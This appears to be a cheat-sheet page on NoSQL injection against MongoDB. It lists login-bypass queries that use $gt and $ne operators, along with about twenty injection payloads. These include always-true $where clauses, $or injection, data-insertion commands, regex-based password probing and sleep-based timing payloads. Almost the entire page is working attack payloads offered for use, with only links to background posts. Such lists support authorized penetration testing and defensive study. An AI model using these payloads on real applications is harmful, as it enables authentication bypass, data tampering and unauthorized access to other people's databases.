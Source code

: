 # Nosql-injections

Nosql-databases like MongoDB is becoming more and more common. So this needs to be expanded.

## Login bypass

Basically change the query to this.

```javascript
{"user":{"$gt": ""},"pass":{"$gt": ""}}
username[$ne]=toto&password[$ne]=toto

```

## MongoDB Payloads

```
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
';sleep(5000);
';sleep(5000);'
';sleep(5000);+'
';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);
```

[http://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html](http://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html)  
[http://blog.websecurify.com/2014/08/attacks-nodejs-and-mongodb-part-to.html](http://blog.websecurify.com/2014/08/attacks-nodejs-and-mongodb-part-to.html)  
[https://github.com/cr0hn/nosqlinjection\_wordlists](https://github.com/cr0hn/nosqlinjection_wordlists)

